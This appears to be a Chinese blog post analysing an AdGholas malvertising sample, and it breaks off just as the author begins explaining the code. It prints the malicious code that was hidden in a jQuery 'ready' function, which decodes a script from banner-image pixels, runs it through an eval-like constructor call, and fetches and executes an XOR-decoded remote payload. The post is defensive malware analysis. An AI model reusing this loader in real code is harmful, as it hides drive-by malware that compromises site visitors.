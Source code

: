 ```yaml
---
title: AdGholas样本分析 - 隐藏之深，难以察觉
date: 2017-02-07 09:19:34
tags: 样本分析
---
```


# 背景介绍

从[Brooks](https://twitter.com/brooks_li)那里拿到AdGholas的sample，第一眼看上去，什么都没看出来，还以为是normal sample呢。后来跟Brooks确认以后，这个sample的确是恶意的，相应的code就隐藏在library中，这才找出更多的线索，把这个sample的来龙去脉梳理清楚。

据悉，这个sample去年6、7月份出来，目前EK中使用的不多，应该也是在尝试阶段。之所以写这篇文章，是因为从这里，可以看到attacker为了躲避检查，做了很多隐藏的手段，而这些方法也都是许多security solution可能忽略的。

# 样本细节分析

样本中的library还是挺多的，为了简单排斥掉不相干的library，去官方网站上找相应的js library，进行对比，会是一种取巧的方法。

最后，定位在一个JQuery的library文件上，但是，beautify以后的libaray高达4K行，也有许多diff的地方，再加上书写的实在是太规整了，难以通过直观的判断，找出哪里是包含恶意的code。

考虑到这样的code应该会有解密过程，那么，用常见的解密函数去搜索一下看看有没有什么发现，像：`eval`, `appendChild`, `fromCharCode`, `charCodeAt`等等，最后，发现了这么一段code，觉得有些异样。

```javascript
ready: function(a) {
    if (!0 === a ? !--d.readyWait : !d.isReady) {
        if (!(n.body && "adt" in q)) return setTimeout(d.ready, 10);
        var b = adt.opts;
        if (!(d.isReady || "it" in q) && 3 < ("" + adt.opts.aid).length) {
            var c = function() {
                    var a = h.offsetWidth,
                        c = h.offsetHeight;
                    f.width = a;
                    f.height = c;
                    f.style.width = a + "px";
                    f.style.height = c + "px";
                    g.drawImage(h, 0, 0);
                    for (var d = g.getImageData(0, 0, a, c).data, a = [], e = d.length, m = -1, c = 3; c < e; c += 4) 255 != d[c] && (a[++m] = (~d[c] & 255) / 2 & 255);
                    d = "";
                    for (c = 0; c < a.length; c++) d += String.fromCharCode(a[c] ^ 22);
                    try {
                        d = d.split(Array(10).join("/"))[0];
                        b.x = a.slice(d.length + 9);
                        try {
                            "constructor".constructor.constructor(d)() // 类似于eval()
                        } catch (p) {}
                    } catch (p) {
                        b.t.fb = 1, b.t.eh = p
                    }
                    return !0
                },
                e = !1,
                f = n.createElement("savnac".split("").reverse().join(""));
            if (f.getContext) {
                var g = f.getContext("2d");
                g.getImageData && (e = !0)
            }
            if (e) {
                var h = n.getElementById("banner").getElementsByTagName("img")[0];
                if (h.complete) c();
                else return setTimeout(d.ready, 50)
            } else b.t.fb = 1;
            b.t.g = n.security ? 1 : 0;
            b.t.c = function() {
                for (var a in q)
                    if ("__" == a.substr(0, 2)) return 1;
                return 0
            }();
            q.it = !0;
            b.cb = function(a, c, e) {
                "object" !== typeof a && (a = e);
                if (!(4 !== a.readyState && "error" != c || "ld" in q || "ld2" in q)) {
                    b.cb = null;
                    q.ld = !0;
                    a = a.status;
                    c = 200 < a && 1E3 > a && 400 !== a;
                    var f = "fb" in adt.ms;
                    200 !== a && (e = d.extend({}, adt.ms), e.df = 1, c && (e.df = a ^ 200), e.q = 1, adt.req(e, function(a, c, d) {
                        "object" !== typeof a && (a = d);
                        if (!(4 !== a.readyState || "ld2" in q) && (q.ld2 = !0, 200 === a.status)) {
                            c = a.responseText;
                            if (a = a.getResponseHeader("xhr-sid")) a = a.split("-"), b.k = a[0], b.u = a[1];
                            if (f && c && 40 < c.length) {
                                a = 238;
                                d = [];
                                for (var e = c.length; a < e; d.push(c.charCodeAt(a) ^ 225), a++);
                                try {
                                    "constructor".constructor.constructor(String.fromCharCode.apply("", d))()
                                } catch (g) {}
                            }
                        }
                    }))
                }
            }
        }
        d.isReady = !0;
        !0 !== a && 0 < --d.readyWait || (pa.resolveWith(n, [d]), d.fn.triggerHandler && (d(n).triggerHandler("ready"), d(n).off("ready")))
    }
}
```

读完这段code以后，大致的逻辑是这样的：
- 









